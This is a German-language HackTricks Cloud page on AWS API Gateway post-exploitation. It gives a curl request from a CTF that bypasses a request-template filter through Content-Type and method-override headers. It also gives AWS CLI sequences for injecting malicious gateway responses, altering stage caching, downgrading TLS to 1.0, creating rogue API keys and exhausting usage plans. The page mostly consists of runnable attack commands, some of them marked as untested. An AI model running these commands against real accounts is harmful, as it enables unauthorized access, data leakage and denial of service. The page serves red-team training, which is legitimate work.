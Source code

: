 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## API Gateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Zugriff auf nicht freigegebene APIs

Du kannst einen Endpunkt unter [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) mit dem Dienst `com.amazonaws.us-east-1.execute-api` erstellen, den Endpunkt in einem Netzwerk freigeben, auf das du Zugriff hast (möglicherweise über eine EC2-Maschine), und eine Sicherheitsgruppe zuweisen, die alle Verbindungen zulässt.\
Dann kannst du von der EC2-Maschine aus auf den Endpunkt zugreifen und somit die Gateway-API aufrufen, die zuvor nicht freigegeben war.

### Umgehung der Request-Body-Passthrough

Diese Technik wurde in [**diesem CTF-Writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) gefunden.

Wie in der [**AWS-Dokumentation**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) im Abschnitt `PassthroughBehavior` angegeben, wird standardmäßig der Wert **`WHEN_NO_MATCH`** beim Überprüfen des **Content-Type** Headers der Anfrage die Anfrage ohne Transformation an das Backend weiterleiten.

Daher hatte im CTF das API Gateway eine Integrationstemplate, das **verhinderte, dass die Flagge in einer Antwort exfiltriert wurde**, wenn eine Anfrage mit `Content-Type: application/json` gesendet wurde:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Das Senden einer Anfrage mit **`Content-type: text/json`** würde diesen Filter jedoch umgehen.&#x20;

Da das API Gateway nur `Get` und `Options` erlaubte, war es schließlich möglich, eine beliebige dynamoDB-Abfrage ohne Einschränkung zu senden, indem eine POST-Anfrage mit der Abfrage im Body gesendet und der Header `X-HTTP-Method-Override: GET` verwendet wurde:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Im Abschnitt **Enumeration** kannst du sehen, wie man den **Nutzungsplan der Schlüssel** erhält. Wenn du den Schlüssel hast und er auf X Nutzungen **pro Monat** begrenzt ist, könntest du ihn **einfach verwenden und einen DoS verursachen**.

Der **API Key** muss einfach in einem **HTTP-Header** namens **`x-api-key`** enthalten sein.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateGatewayResponse` und `apigateway:CreateDeployment` kann eine **bestehende Gateway-Antwort modifizieren, um benutzerdefinierte Header oder Antwortvorlagen einzufügen, die sensible Informationen leaken oder bösartige Skripte ausführen**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Leckage von sensiblen Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Muss getestet werden
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateStage` und `apigateway:CreateDeployment` kann **eine bestehende API Gateway-Stufe modifizieren, um den Datenverkehr zu einer anderen Stufe umzuleiten oder die Cache-Einstellungen zu ändern, um unbefugten Zugriff auf zwischengespeicherte Daten zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potentieller Einfluss**: Unbefugter Zugriff auf zwischengespeicherte Daten, Störung oder Abfangen von API-Verkehr.

{% hint style="info" %}
Test erforderlich
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:PutMethodResponse` und `apigateway:CreateDeployment` kann **die Methodenantwort einer bestehenden API Gateway REST API Methode ändern, um benutzerdefinierte Header oder Antwortvorlagen einzufügen, die sensible Informationen leaken oder bösartige Skripte ausführen**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potentieller Einfluss**: Leckage von sensiblen Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Testen erforderlich
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateRestApi` und `apigateway:CreateDeployment` kann **die API Gateway REST API-Einstellungen ändern, um das Logging zu deaktivieren oder die minimale TLS-Version zu ändern, was die Sicherheit der API potenziell schwächen kann**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potentieller Einfluss**: Schwächung der Sicherheit der API, was möglicherweise unbefugten Zugriff oder die Offenlegung sensibler Informationen ermöglicht.

{% hint style="info" %}
Test erforderlich
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ein Angreifer mit den Berechtigungen `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` und `apigateway:CreateUsagePlanKey` kann **neue API-Schlüssel erstellen, sie mit Nutzungsplänen verknüpfen und diese Schlüssel dann für unbefugten Zugriff auf APIs verwenden**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potentieller Einfluss**: Unbefugter Zugriff auf API-Ressourcen, Umgehung von Sicherheitskontrollen.

{% hint style="info" %}
Muss getestet werden
{% endhint %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

